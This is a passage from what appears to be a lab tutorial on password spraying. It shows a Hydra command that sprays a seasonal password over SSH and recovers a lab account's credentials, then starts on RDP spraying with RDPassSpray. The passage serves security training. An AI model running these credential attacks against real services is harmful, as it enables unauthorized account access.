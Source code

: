 
If a password complexity policy is enforced within the organization, we may need to create a password that includes symbols to fulfill the requirement, such asÂ October2021!,Â Spring2021!,Â October2021@,Â etc.Â **To be successful in the password spraying attack, we need to enumerate the target and create a list of valid usernames (or email addresses list)**.

Next, we will apply the password spraying technique using different scenarios against various services, including:

- SSH
- RDP
- Outlook web access (OWA) portal  
- SMB

### SSH

Assume that we have already enumerated the system and created a valid username list.

Hashcat

```shell-session
user@THM:~# cat usernames-list.txt
admin
victim
dummy
adm
sammy
```

Here we can useÂ hydraÂ to perform the password spraying attack against theÂ SSHÂ service using theÂ Spring2021Â password.

Hashcat

```shell-session
user@THM:~$ hydra -L usernames-list.txt -p Spring2021 ssh://10.1.1.10
[INFO] Successful, password authentication is supported by ssh://10.1.1.10:22
[22][ssh] host: 10.1.1.10 login: victim password: Spring2021
[STATUS] attack finished for 10.1.1.10 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```

Note thatÂ LÂ is to load the list of valid usernames, andÂ -pÂ uses theÂ Spring2021Â password against theÂ SSHÂ service atÂ 10.1.1.10. The above output shows that we have successfully found credentials.

### RDP

Let's assume that we found an exposedÂ RDPÂ service on port 3026. We can use a tool such asÂ [RDPassSpray](https://github.com/xFreed0m/RDPassSpray)Â to password spray againstÂ RDP. First, install the tool on your attacking machine by following the installation instructions in the toolâ€™s GitHub repo. As a new user of this tool, we will start by executing theÂ python3 RDPassSpray.py -hÂ command to see how the tools can be used:

Hashcat

```shell-session
user@THM:~# python3 RDPassSpray.py -h
usage: RDPassSpray.py [-h] (-U USERLIST | -u USER  -p PASSWORD | -P PASSWORDLIST) (-T TARGETLIST | -t TARGET) [-s SLEEP | -r minimum_sleep maximum_sleep] [-d DOMAIN] [-n NAMES] [-o OUTPUT] [-V]

optional arguments:
  -h, --help            show this help message and exit
  -U USERLIST, --userlist USERLIST
                        Users list to use, one user per line
  -u USER, --user USER  Single user to use
  -p PASSWORD, --password PASSWORD
                        Single password to use
  -P PASSWORDLIST, --passwordlist PASSWORDLIST
                        Password list to use, one password per line
```
